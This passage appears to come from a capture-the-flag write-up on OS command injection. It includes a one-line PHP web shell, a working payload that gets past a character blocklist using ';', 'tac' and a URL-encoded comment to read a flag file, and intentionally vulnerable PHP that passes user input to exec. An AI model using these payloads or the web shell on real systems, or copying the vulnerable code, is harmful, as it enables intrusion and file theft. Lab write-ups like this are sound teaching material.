 ```<?php exec($_GET["cmd"],$output); print_r($output); ?>```
        }
    } else {
        foreach ($errors as $error) {
            echo $error;
        }
    }
}

?>
```

##Challenge 7
Challenge 7 doesn’t allow for the following characters: "|","&","`","$", "(", “)”. This leaves us only with the “;” character. On top of the characters that are disallowed, the word ”cat” isn’t allowed either. The second problem you will run into with this challenge is, unlike the other commands, the injection point is not at the end of the command. Below is the code snipped of the command:

```“openssl s_client -showcerts -connect ". $userInput . ":443 </dev/null”```

To solve the first problem, you need to use something other then “cat.” A couple of options are to use tac or more. You could find out what commands are or are not allowed by brute forcing a list of possible commands that can read a file. 

To solve the second problem of the injection point not being at the end, you will need to comment out the rest of the command. To do this, just add a %23 (URL encoded “#”) to the end of the injection. Omitting %23 will not necessarily prevent your code from executing but it’s good practice for making debugging easier. For example, if you would run google.com; whoami, you are really running ```whoami:443 </dev/null``` which might give you unexpected errors. 

Putting this together gets us with the following injection:

```google.com; tac /tmp/flag.txt #```

flag{CowsHaveHoovesInsteadOfFeetBecauseTheyLactose}

###Code
```php
<?php
$userInput = $_GET["domain"];
$sanitizers = ["|","&","`","$", "(", ")", "cat"];
$command = "openssl s_client -showcerts -connect ". $userInput . ":443 </dev/null";
$safe = false;
foreach($sanitizers as $sanatizer){
    if(strstr(strtolower($userInput), strtolower($sanatizer))!='') {
        echo "Yo! Don't hack me.... please";
        $safe = false;
        break;
    }else{
        $safe = true;
    }
}
if ($safe){
    exec($command . " 2>&1",$output);
    foreach ($output as $line) {
        echo $line;
        echo '</br>';
    }
}
?>
```
